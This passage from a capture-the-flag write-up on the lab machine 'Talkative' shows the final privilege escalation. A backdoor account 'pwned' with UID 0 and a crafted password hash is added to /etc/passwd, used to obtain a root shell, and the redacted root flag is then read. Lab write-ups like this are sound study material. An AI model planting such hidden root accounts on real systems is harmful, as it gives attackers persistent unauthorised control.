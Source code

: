 ```shell
Success!!
```

```shell
saul@talkative:~$ tail -n 1 /etc/passwd
pwned:$1$wP0CIs/a$aUfbpJGnlYxt4wlvcPups0:0:0:pwned:/root:/bin/bash
```

It worked!

**Let's Switch User to our newly created user:**
```shell
saul@talkative:~$ su pwned
Password: 
root@talkative:/home/saul# whoami; hostname; id; ip a
root
talkative
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:3c:10 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.155/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:3c10/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

I'm root! :D

## Rooted

**root.txt:**
```shell
root@talkative:~# cat root.txt
{Redacted}
```
